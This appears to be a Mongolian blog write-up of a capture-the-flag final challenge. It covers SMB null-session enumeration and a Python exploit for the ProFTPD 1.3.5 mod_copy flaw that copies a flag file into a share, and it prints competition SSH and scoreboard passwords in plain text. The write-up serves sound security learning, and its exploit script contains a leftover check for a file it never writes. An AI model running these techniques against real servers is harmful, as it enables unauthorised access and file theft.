 ```yaml
---
published: true
---
```

# HZ 2021 Final Round Orb
Зочилсон хүний тоо 👉 ![Visitor Count](https://profile-counter.glitch.me/{fg0d}/count.svg)

  <img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/hzz.png">
</p>

"Харуул Занги 2021" амжилттай болж өндөрлөлөө. Миний бие энэ жил **AnonSec** багаас хоёр найзтайгаа хамт оролцсон бөгөөд 1-р шатанд 3-р байранд , 2-р шатанд 5-р байранд орсон билээ. Энэ жил өмнө жилийн тэмцээнийг сонирхолтой болгож өгсөн зүйл нь Финалын шат "Attack And Defense" төрлөөр явагдсан. Манай баг төдийлөн өндөр амжилт үзүүлж чадаагүй ч гэсэн өөрсдийн бодсон бодлогоо тайлбартайгаар хүргэх нь зүйтэй болов уу гэж бодлоо.

## Orb

Финалын шатанд баг бүрт тусдаа **Docker** үүсгэж өгсөн учраас эхлээд SSH-ээр хандаж орох хэрэгтэй болсон

Жишээ нь: **Манай багийн SSH login хэсэг**

Багийн нэр: **AnonSec**
<br>
Манай багийн domain: **hz-vulbox3.haruulzangi.mn**
<br>
SSH username: **root**
<br>
SSH password: **u3RYQMZDaAg4bEEq6SmLOi**
<br>
[Онооны самбар харах , флагаа оруулах хэсэг:](http://final.haruulzangi.mn:19999/)
<br>
"Нэвтрэх нэр": **AnonSec**
<br>
"Нууц үг": **5Ft1ELGZOqUI87W4**

Үүний дараа бид challenge бүрийн docker-н мэдээллийг харахын тулд энэхүү тушаалыг ашиглах боломжтой

root@ip-10-10-20-23:~# **docker ps -a**

`e57944a41e96   orb             "/tmp/entrypoint.sh …"   9 hours ago    Up 6 hours   0.0.0.0:21->21/tcp, :::21->21/tcp, 0.0.0.0:139->139/tcp, :::139->139/tcp, 0.0.0.0:445->445/tcp, :::445->445/tcp, 0.0.0.0:2205->22/tcp, :::2205->22/tcp   orb`

Тушаалыг бичсэнээр бид нар **Orb** даалгаварлуу **bash shell** -ээр орж байгаа юм.

root@ip-10-10-20-23:~# **docker exec -it orb /bin/bash**

Орсны дараа файлуудыг нэг бүрчлэн туршиж үзэхэд **ProFTPd** , **Samba** гэсэн хоёр танил сервис байхыг харж болно. 

`Samba буюу SMB нь 445 , 139-р портон дээр ажилладаг файл хуваалцах боломжыг бүрдүүлдэг протокол`

`ProFTPd буюу FTP нь 21-р портон дээр ажилладаг файл дамжуулах боломжыг бүрдүүлдэг протокол`

> SMB дээр Null session үүсгэж нууц үг шаардлагүйгээр хандалт хийх боломжтой эмзэг байдал байдаг

> ProFTPd дээр хамгийн сайн мэдэх mod_copy эмзэг байдал байдаг

Одоо тэгвэл энэхүү хоёр сервисын уялдаа холбоог жаахан ойлгох хэрэг гарна. Эхлээд юуг ашиглаж болох вэ гэхээр:

SMB-г **Enumeration** хийж мэдээлэл цуглуулах хэрэгтэй.

`$IP = '18.162.113.173'`

`enum4linux -A $IP`

ингэснээр ямар хэрэглэгчид байгаа мэдээллийг , мөн default-аар байгаа бол шууд нууц үгийг олох боломжтой байдаг

`yondu`

`gamora`

`nebula`

гэсэн 3 хэрэглэгч олдлоо

Тэгвэл энэхүү 3 хэрэглэгчрүү ороход бидний Permission хүрэх үү? **Access** хийж чадах уу гэдгийг шалгахын тулд:

`$IP = '18.162.113.173'`

`smbmap -H 18.162.113.173`

|print$          |Disk      |Printer Drivers|
|----------------|----------|---------------|
|yondu           |Disk      |/samba/ is a nice planet to place orb ( Admin access )|
|gamora          |Disk      |Where is the orb? ( Admin access )|
|nebula          |Disk      |Why is gamora? ( Free access )|
|IPC$            |IPC       |IPC Service (e57944a41e96 server (Samba, Ubuntu))|
    
үүнээс харвал **nebula** хэрэглэгчрүү нэвтрэхэд **Free access**-тай буюу **Null session** үүсгэх боломжтой байгааг харж болно.

`smbclient //18.162.113.173/nebula`

нууц үг шаардлагагүй шууд **Enter** дараад орно

Энэ маань бидний файлаа хуулаад тавихад харах боломжтой хэрэглэгч гэж ойлгож болно.

За одоо ProFTPd-гээр үндсэн **flag** файлаа mod_copy хийж **nebula** хэрэглэгчрүү хуулах шаардлага үүсэж байгаа

IP-гаар нь скан хийж үзвэл:

`21/tcp   open   ftp         ProFTPD 1.3.5`

ProFTPd 1.3.5 хувилбар байсан бөгөөд Exploit-н хайж үзвэл

[Exploit хийх линк](https://www.exploit-db.com/exploits/36742)  энэхүү линкээр ороод үзэж болно

Шууд энэхүү exploit-г ажиллуулах боломжгүй бөгөөд үүнийг скрипт болгоод бага зэрэг өөрчлөлт оруулвал

```python
import sys
import socket
import requests

def exploit(client, target):
    client.connect((target,21)) # Connecting to the target server
    banner = client.recv(74)
    print(banner.decode())
    client.send(b'site cpfr /flag\r\n')
    print(client.recv(1024).decode())
    client.send(b'site cpto /samba/nebula/flag.txt\r\n')
    print(client.recv(1024).decode())
    client.close()
    print('Exploit Completed')

def check(url):
    req = requests.get(url) # Requesting the written PoC php file via HTTP
    if req.status_code == 200:
        print('[+] File Written Successfully')
        print(f'[+] Go to : {url}')
    else:
        print('[!] Something Went Wrong')
        print('[!] Directory might not be writable')

def main():
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    target = sys.argv[1]
    exploit(client, target)
    url = 'http://' + target + '/test.php'
    check(url)

if __name__ == '__main__':
    main()
```

**Exploit completed** болсоны дараа **smbclient**-аар орсон **nebula** хэрэглэгчээр ороод **dir** тушаалыг биелүүлэхэд **flag** хуулагдсан байх болно

<p align="center">
  <img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/flag.PNG">
</p>
